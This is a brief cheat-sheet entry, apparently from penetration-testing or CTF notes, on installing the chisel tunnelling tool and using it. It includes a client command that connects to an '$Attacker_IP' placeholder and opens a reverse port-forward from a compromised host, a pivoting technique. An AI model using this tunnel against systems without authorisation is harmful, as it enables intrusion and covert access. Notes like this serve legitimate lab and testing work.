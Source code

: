 ## chisel

**Install:**
* `sudo go install github.com/jpillora/chisel@latest `
* `sudo cp ~/go/bin/chisel /usr/local/bin` - so that it can be run without specifying path 

**Usage:**
* Server: `sudo chisel server -p 9001 --reverse`
* Client: `chisel client $Attacker_IP:9001 R:$newPort:127.0.0.1:$oldPort` - newPort and oldPort can be the same